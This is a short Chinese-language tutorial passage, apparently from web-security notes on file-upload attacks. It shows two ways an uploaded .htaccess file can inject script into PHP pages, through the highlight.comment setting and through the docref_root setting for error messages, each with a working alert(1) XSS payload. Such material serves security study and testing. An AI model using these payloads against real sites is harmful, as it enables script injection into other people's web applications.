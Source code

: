 ### 进行 XSS 攻击

#### 通过设置 highlight_file

我们可以通过 .htaccess 文件设定 highlight.comment 选项，指定需要高亮的内容，从而进行 XSS。

.htaccess中的内容

```php
php_value highlight.comment '"><script>alert(1);</script>'
```

index.php中的内容为：

```php
<?php
highlight_file(__FILE__);
// comment
```

当访问index.php时便会触发 XSS：

![img](文件上传.assets/1681146121316-383c7e33-f202-4b7f-bb9c-b980e044fe9d.png)

#### 通过错误消息链接

.htaccess 中的内容：

```php
php_flag display_errors 1
php_flag html_errors 1
php_value docref_root "'><script>alert(1);</script>"
```
